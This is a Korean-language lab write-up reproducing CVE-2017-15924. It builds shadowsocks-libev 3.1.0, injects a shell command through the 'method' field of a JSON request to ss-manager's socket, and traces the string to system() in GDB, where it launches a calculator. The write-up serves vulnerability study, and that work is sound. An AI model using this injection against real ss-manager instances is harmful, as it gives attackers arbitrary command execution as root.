

# CVE-2017-15924



## 1. 설정
1. shadowsocks-libev 실행을 위한 의존성 다운로드
```bash
sudo apt update && \
sudo apt install -y git build-essential autoconf automake libtool libev-dev \ 
    libpcre3-dev asciidoc xmlto libmbedtls-dev libsodium-dev libc-ares-dev socat && \
sudo apt-get install --no-install-recommends gettext build-essential autoconf libtool \
    libpcre3-dev asciidoc xmlto libev-dev libc-ares-dev automake libmbedtls-dev libsodium-dev
```

2. shadowsocks-libev 다운로드 및 서브모듈 설치
```bash
git clone https://github.com/shadowsocks/shadowsocks-libev.git && \
    cd shadowsocks-libev && git fetch --tags && git checkout v3.1.0 && \
    git submodule update --init --recursive
```

3. 디버그용 플래그 지정
```bash
export CFLAGS="-g3 -O0 -fno-omit-frame-pointer -fno-pie -fcommon -Wno-error=stringop-truncation -DDEBUG"
export CXXFLAGS="$CFLAGS"
export LDFLAGS="-no-pie"
```

4. 빌드
```bash
./autogen.sh
./configure CC=gcc --prefix=$PWD/install-3.1.0
make -j"$(nproc)"
make install
```

5. 버전확인
```bash
$ ./install-3.1.0/bin/ss-manager --version
 2025-07-20 17:13:40 ERROR: Unrecognized option: (null)

shadowsocks-libev 3.1.0

  maintained by Max Lv <max.c.lv@gmail.com> and Linus Yang <laokongzi@gmail.com>
```
---

## 2. Proof of Concept
### 1. Description
ss-manager는 JSON 요청을 파싱한 뒤 다음처럼 system()으로 ss-server를 실행합니다.
```sql
ss-server -m <method> --manager-address ... &
```
> method 필드는 검증 없이 그대로 입력되므로, aes-256-cfb; <SHELL_CMD> ; # 형태로 주입하면 root 권한으로 임의 명령이 실행됩니다.


### 2. Exploit
* ss-manager 터미널
```bash
sudo ./install-3.1.0/bin/ss-manager -v DEBUG \
     --manager-address /tmp/ssmgr.sock \
     --executable ./install-3.1.0/bin/ss-server \
     -k testpw -m aes-256-cfb
```

* 공격자 터미널
```bash
printf 'add: {"server_port":7004,"password":"testpw","method":"aes-256-cfb; gnome-calculator ; #", "time>
 | sudo nc -U -u /tmp/ssmgr.sock
```
> 시연영상에서 계산기를 확인할수 있다.
---

## 3. GDB 트레이스 (취약 경로 증명)
분석 과정에서 추출한 슬라이스 지점마다 브레이크포인트를 설정해, 슬라이스된 코드와 작성한 PoC가 예상대로 동작하는지 확인합니다.

### 1. gdb 디버깅 설정
```bash
sudo gdb --args ./install-3.1.0/bin/ss-manager -v DEBUG \
     --manager-address /tmp/ssmgr.sock \
     --executable ./install-3.1.0/bin/ss-server -k pw -m aes-256-cfb

(gdb) set pagination off           # 출력 멈춤 방지
(gdb) handle SIGPIPE nostop noprint pass
(gdb) set follow-fork-mode parent  # system() 자식은 추적 안 함
```

### 2. 브레이크포인트 설정
```bash

(gdb) break manager.c:825           # 1. main()
(gdb) break manager.c:1187          # 2. ev_io_init()     # 호출 위치에 기계어가 그대로 박혀서 함수 라인으로 브레이크
(gdb) break manager.c:569           # 3. manager_recv_cb()
(gdb) break manager.c:580           # 4. recvfrom()
(gdb) break manager.c:591           # 5. get_action()
(gdb) break manager.c:596           # 6. strcmp()
(gdb) break manager.c:609           # 7. add_server()
(gdb) break manager.c:124           # 8. construct_command_line();
(gdb) break manager.c:485           # 9. cmd 할당 라인
(gdb) break manager.c:134           # 10. snprintf()
(gdb) break manager.c:486           # 11. system()
```

### 3. 프로그램 실행
```bash
# 프로그램 실행
(gdb) start
Temporary breakpoint 1 at 0x40d7a6: file manager.c, line 826.
Starting program: /home/mjbin/Desktop/lab/for_report/shadowsocks-libev/install-3.1.0/bin/ss-manager -v DEBUG --manager-address /tmp/ssmgr.sock --executable ./install-3.1.0/bin/ss-server -k pw -m aes-256-cfb
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Temporary breakpoint 1, main (argc=11, argv=0x7fffffffe1a8)
    at manager.c:826
826	{
(gdb) c
Continuing.
 2025-07-21 13:39:05 INFO: running from root user

Breakpoint 2, main (argc=11, argv=0x7fffffffe1a8) at manager.c:1187
1187	    ev_io_init(&manager.io, manager_recv_cb, manager.fd, EV_READ);
```

### 4. 공격자 터미널에서 인젝션
```bash
printf 'add: {"server_port":7004,"password":"testpw","method":"aes-256-cfb; gnome-calculator ; #", "timeout":60}\n' | sudo nc -U -u /tmp/ssmgr.sock

```

### 5. gdb 추적
```bash
(gdb) ignore 3 1
Will ignore next crossing of breakpoint 3.
(gdb) c
Continuing.

Breakpoint 4, manager_recv_cb (loop=0x7ffff7eb8060, w=0x7fffffffdf40, revents=1) at manager.c:580
580	    r   = recvfrom(manager->fd, buf, BUF_SIZE, 0, (struct sockaddr *)&claddr, &len);
(gdb) x/s buf
0x7ffffffddc80:	""
(gdb) p/s buf
$20 = '\000' <repeats 65534 times>
(gdb) next
581	    if (r == -1) {
(gdb) x/s buf
0x7ffffffddc80:	"add: {\"server_port\":7004,\"password\":\"testpw\",\"method\":\"aes-256-cfb; gnome-calculator ; #\", \"timeout\":60}\n"
(gdb) p/s buf
$21 = "add: {\"server_port\":7004,\"password\":\"testpw\",\"method\":\"aes-256-cfb; gnome-calculator ; #\", \"timeout\":60}\n", '\000' <repeats 65429 times>
(gdb) print r
$22 = 105
(gdb) finish
Run till exit from #0  manager_recv_cb (loop=0x7ffff7eb8060, w=0x7fffffffdf40, revents=1)
    at manager.c:581

Breakpoint 5, manager_recv_cb (loop=0x7ffff7eb8060, w=0x7fffffffdf40, revents=1) at manager.c:591
591	    char *action = get_action(buf, r);
(gdb) next
592	    if (action == NULL) {
(gdb) print action 
$24 = 0x7ffffffddc80 "add"
(gdb) next

Breakpoint 6, manager_recv_cb (loop=0x7ffff7eb8060, w=0x7fffffffdf40, revents=1) at manager.c:596
596	    if (strcmp(action, "add") == 0) {
(gdb) x/s $rdi
0x7ffffffddc80:	"add"
(gdb) x/s $rsi
0x69:	<error: Cannot access memory at address 0x69>
(gdb) next
597	        struct server *server = get_server(buf, r);
(gdb) x/s $rsi
0x41b99a:	"add"
(gdb) c
Continuing.
 2025-07-21 14:31:13 ERROR: invalid data:  {"server_port":7004,"password":"testpw","method":"aes-256-cfb; gnome-calculator ; #", "timeout":60}

 2025-07-21 14:31:13 ERROR: unable to open pid file

Breakpoint 7, manager_recv_cb (loop=0x7ffff7eb8060, w=0x7fffffffdf40, revents=1) at manager.c:609
609	        int ret = add_server(manager, server);
(gdb) print server->method
$25 = 0x43fd60 "aes-256-cfb; gnome-calculator ; #"
(gdb) p/x server->method
$26 = 0x43fd60
(gdb) c
Continuing.
 2025-07-21 14:31:52 INFO: try to bind interface: 0.0.0.0, port: 7004

Breakpoint 9, add_server (manager=0x7fffffffdf40, server=0x43fca0) at manager.c:485
485	    char *cmd = construct_command_line(manager, server);
(gdb) finish
Run till exit from #0  add_server (manager=0x7fffffffdf40, server=0x43fca0) at manager.c:485

Breakpoint 8, construct_command_line (manager=0x7fffffffdf40, server=0x43fca0) at manager.c:125
125	{
(gdb) finish
Run till exit from #0  construct_command_line (manager=0x7fffffffdf40, server=0x43fca0) at manager.c:125

Breakpoint 10, construct_command_line (manager=0x7fffffffdf40, server=0x43fca0) at manager.c:134
134	    snprintf(cmd, BUF_SIZE,
(gdb) next 3
139	    if (manager->acl != NULL) {
(gdb) print cmd
$34 = "./install-3.1.0/bin/ss-server -m aes-256-cfb; gnome-calculator ; # --manager-address /tmp/ssmgr.sock -f /root/.shadowsocks/.shadowsocks_7004.pid -c /root/.shadowsocks/.shadowsocks_7004.conf", '\000' <repeats 65345 times>
(gdb) x/s   cmd
0x428b20 <cmd.2>:	"./install-3.1.0/bin/ss-server -m aes-256-cfb; gnome-calculator ; # --manager-address /tmp/ssmgr.sock -f /root/.shadowsocks/.shadowsocks_7004.pid -c /root/.shadowsocks/.shadowsocks_7004.conf"
(gdb) c
Continuing.
 2025-07-21 14:37:51 INFO: cmd: ./install-3.1.0/bin/ss-server -m aes-256-cfb; gnome-calculator ; # --manager-address /tmp/ssmgr.sock -f /root/.shadowsocks/.shadowsocks_7004.pid -c /root/.shadowsocks/.shadowsocks_7004.conf -t 60 -v -s 0.0.0.0 --reuse-port

Breakpoint 11, add_server (manager=0x7fffffffdf40, server=0x43fca0) at manager.c:486
486	    if (system(cmd) == -1) {
(gdb) print cmd
$36 = 0x428b20 <cmd> "./install-3.1.0/bin/ss-server -m aes-256-cfb; gnome-calculator ; # --manager-address /tmp/ssmgr.sock -f /root/.shadowsocks/.shadowsocks_7004.pid -c /root/.shadowsocks/.shadowsocks_7004.conf -t 60 -v -"...
(gdb) nexti 2
0x000000000040c07e	486	    if (system(cmd) == -1) {
1: x/i $pc
=> 0x40c07e <add_server+303>:	call   0x402790 <system@plt>
2: x/i $pc
=> 0x40c07e <add_server+303>:	call   0x402790 <system@plt>
(gdb) print (char*)$rdi
$39 = 0x428b20 <cmd> "./install-3.1.0/bin/ss-server -m aes-256-cfb; gnome-calculator ; # --manager-address /tmp/ssmgr.sock -f /root/.shadowsocks/.shadowsocks_7004.pid -c /root/.shadowsocks/.shadowsocks_7004.conf -t 60 -v -"...
(gdb) nexti
[Detaching after vfork from child process 629224]

shadowsocks-libev 3.1.0

  maintained by Max Lv <max.c.lv@gmail.com> and Linus Yang <laokongzi@gmail.com>

  usage:

    ss-server
    # ...
```
> 계산기가 실행되는것을 확인할 수 있다.
